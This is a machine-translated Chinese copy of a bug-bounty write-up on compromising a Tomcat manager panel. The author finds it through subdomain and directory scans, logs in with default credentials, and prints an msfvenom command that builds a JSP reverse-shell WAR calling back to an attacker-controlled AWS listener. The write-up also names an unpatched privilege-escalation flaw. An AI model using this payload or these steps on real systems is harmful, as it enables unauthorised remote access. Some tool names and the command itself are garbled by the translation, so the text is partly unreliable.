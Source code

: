 # 从 TOMCAT 到 NT 权威\系统

> 原文：<https://infosecwriteups.com/from-tomcat-to-nt-authority-system-a79fa09c4abb?source=collection_archive---------0----------------------->

由于工作繁忙，我已经有一段时间没有给虫子发奖金了。

由于隐私问题，我不会透露该计划…

![](img/ece5f744127601d5b4417c8dcef0fd87.png)

我开始了我的初步侦察，用 KNOCKPY 子列表等做了一些子域枚举..

我得到了一个名为***【test.REDACTED.com】***的子域，没什么好找的，它返回了一个简单的静态 HTML 页面，然后我用 Dirsearch 做了一个目录扫描

![](img/6d33c2d84af730f1ee7e2f69311f66f6.png)![](img/062ff7c3375c181c5dfe087873d5526f.png)

**"/经理"**那是一个 TOMCAT 登录

![](img/020f7b7032e62c511a0ea6370750b411.png)

检查它是否使用默认登录更加令人满意

![](img/6dfbf70d8eb378bff728fe10310c82d0.png)

请不要质疑我的电脑名称

还有鼓……..

![](img/17077bcf80f9f647c2623f550afb62d3.png)

我们有一个登录

![](img/5cd5f8115ba09dea52bf31c769a6f69b.png)

呜哇

现在是打开外壳的时候了，我使用 AWS 服务器作为监听器

使用以下命令可以生成 jsp 有效负载

## MSF venom-p Java/JSP _ shell _ reverse _ TCP LHOST = 18.191 . 1 * *。* LPORT=4444 -f war > shell.war

** *您可以通过将自定义端口添加到入站规则部分来打开它***

现在有了 TCP 处理程序

![](img/31343253a31f7c25c33b866e73139232.png)

服务器正在运行 Apache 7.0

在进一步的列举中，我发现服务器是 Microsoft Windows Server 2012，它没有被经常关注，最后一个补丁是在 2016 年(可怜的家伙)

它容易受到 MS16–032 的攻击，我从未试图利用它，因为它可能会激怒一些 DEVS。